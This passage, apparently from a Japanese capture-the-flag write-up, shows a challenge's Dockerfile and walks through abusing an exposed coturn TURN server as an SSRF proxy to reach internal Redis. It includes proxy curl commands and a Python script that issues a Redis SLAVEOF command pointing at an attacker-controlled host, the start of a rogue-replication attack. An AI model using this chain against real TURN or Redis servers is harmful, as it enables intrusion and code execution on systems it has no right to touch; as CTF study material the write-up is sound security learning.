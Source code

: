 Gunicorn、[coturn](https://github.com/coturn/coturn)、Redis を同じマシンで動かしているようです。

`Dockerfile` は以下のような内容でした。

```
FROM ubuntu:18.04

RUN adduser --disabled-password --gecos '' www

RUN apt-get update && apt-get install -y coturn redis python3 python3-pip gunicorn3 supervisor

WORKDIR app
COPY requirements.txt .
RUN pip3 install -r requirements.txt

COPY flag.txt /
RUN chmod 444 /flag.txt

COPY supervisord.conf /etc/supervisor/conf.d/supervisord.conf
RUN echo 'min-port=49000' >> /etc/turnserver.conf
RUN echo 'max-port=49100' >> /etc/turnserver.conf

COPY app.py .
COPY static static

EXPOSE 3478
EXPOSE 5000

CMD ["supervisord"]
```

フラグは `/flag.txt` にあるようです。Gunicorn、coturn、Redis のいずれかで読むことができるのでしょう。また、3478 番ポート (coturn) と 5000 番ポートを公開しています。

TURN サーバである coturn が怪しいなあと思いつつもどう攻めればよいかわからず悩んでいたところ、aventador さんが [#333419 TURN server allows TCP and UDP proxying to internal network, localhost and meta-data services](https://hackerone.com/reports/333419) という脆弱性のレポートを見つけていました。参考になりそうです。

まず [staaldraad/turner](https://github.com/staaldraad/turner) を使って `turner -server (省略):3478` を実行しておきます。`curl -x http://localhost:8080 http://ifconf.co/ip` すると問題サーバの IP アドレスが表示されました。SSRF ができているようです。

いろいろ試していると、`0.0.0.0:6379` にアクセスすることで Redis にも SSRF できることに気づきました。

```
$ curl -x http://localhost:8080 http://0.0.0.0:6379
-ERR wrong number of arguments for 'get' command
```

Redis での SSRF といえば [CONFIG SET](https://knqyf263.hatenablog.com/entry/2019/07/12/102929) や [SLAVEOF](https://knqyf263.hatenablog.com/entry/2019/07/16/092907) を使った攻撃です。とりあえず `SLAVEOF` ができるか確認しましょう。

```python
import socket
import time

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('localhost', 8080))
sock.send("""CONNECT 0.0.0.0:6379 HTTP/1.1
Host: 0.0.0.0:6379

""".replace('\n', '\r\n').encode())
print(sock.recv(1024))

sock.send(b'slaveof (省略) 8001\r\n')
print(sock.recv(10240).decode())

time.sleep(5)

sock.send(b'slaveof no one\r\n')
```